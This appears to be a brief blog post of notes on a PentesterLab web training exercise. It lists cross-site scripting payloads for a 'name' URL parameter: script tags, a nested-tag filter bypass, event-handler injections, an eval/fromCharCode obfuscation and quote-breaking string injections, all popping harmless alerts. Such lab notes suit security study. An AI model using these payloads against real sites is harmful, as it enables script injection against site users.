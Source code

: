 ```yaml
---
layout: post
title: Pentesterlab.com Web 1
---
```

#XSS
?name=<script>alert('here')</script>
?name=<script<script>>alert('here')<</script>/script>
?name=<script<script>>alert('here')<</script>/script>
?name=test<a href="" onmouseover="alert('hi')">test</a>
?name=test<a href="" onmouseover="prompt('hi')">test</a> OR ?name=test<a href="" onmouseover="eval(String.fromCharCode('097', '108', '101', '114', '116', '040', '039', '104', '105', '039', '041'));">test</a>
?name=";alert("hi");var test = "
?name=';alert('hi');var test = '
